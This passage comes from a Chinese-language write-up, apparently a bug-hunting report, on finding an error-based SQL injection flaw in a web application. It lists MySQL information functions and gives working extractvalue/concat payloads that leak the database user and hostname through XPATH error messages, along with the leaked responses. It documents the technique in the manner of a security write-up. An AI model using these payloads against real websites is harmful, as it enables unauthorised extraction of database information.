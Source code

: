 [![](https://p5.ssl.qhimg.com/t017e2627c388e34a40.png)](https://p5.ssl.qhimg.com/t017e2627c388e34a40.png)

除此之外，我还测试了一些其他基本的查询参数。例如：



```
system_user()
@@version
database()
@@hostname
@@datadir
@@GLOBAL.VERSION
session_user()
schema()
UUID()
```

接下来，我所测试的查询语句如下所示：

```
Test%27and extractvalue(1,concat(0x00a,system_user()))or’
```

这一次返回的错误信息如下：



```
[previous:Exception:private] =&gt;
 [errorInfo] =&gt; Array
 (
 [0] =&gt; HY000
 [1] =&gt; 1105
 [2] =&gt; XPATH syntax error: ‘
goodwebsite@localhost’
 )
```

从响应信息中来看，我们已经获取到了System_User：

[![](https://p4.ssl.qhimg.com/t01da11d8857799693c.png)](https://p4.ssl.qhimg.com/t01da11d8857799693c.png)

这样一来，这个SQL注入漏洞就已经成功确认了，但是我还想更加深入一下，看看能不能获取到更多有价值的信息，而我所使用的第三条测试语句如下所示：

```
Test%27and extractvalue(1,concat(0x00a,@@hostname))or’
```

而这一次我得到的错误信息如下：



```
[previous:Exception:private] =&gt;
    [errorInfo] =&gt; Array
        (
            [0] =&gt; HY000
            [1] =&gt; 1105
            [2] =&gt; XPATH syntax error: '
www2.rz.something.com'
        )
```
